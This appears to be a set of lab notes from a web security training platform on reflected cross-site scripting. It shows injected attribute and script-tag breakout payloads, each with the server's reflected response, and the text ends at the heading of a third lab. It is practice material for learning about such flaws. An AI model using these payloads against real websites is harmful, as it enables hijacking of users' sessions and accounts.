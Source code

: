 ### Lab: Reflected XSS in canonical link tag

This lab reflects user input in a canonical link tag and escapes angle brackets.

```
<link rel="canonical" href='https://acbb1f671fa57b23c0110b0100ea000f.web-security-academy.net/'/>
```

```
Request:
/?%27test%27=%27test2%27

Response:
....net/?'test'='test2''/>
```

```
/?'accesskey='x'onclick='alert(1)
```

### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

**Search -> 12345678**

```
Response:
<script>
	var searchTerms = '12345678';
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

Single quote gets backslash-escaped

```
</script><script>alert(document)//

Response:
var searchTerms = '</script><script>alert(document)//';

OR

</script><script>alert(1)</script>
```

### Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string.
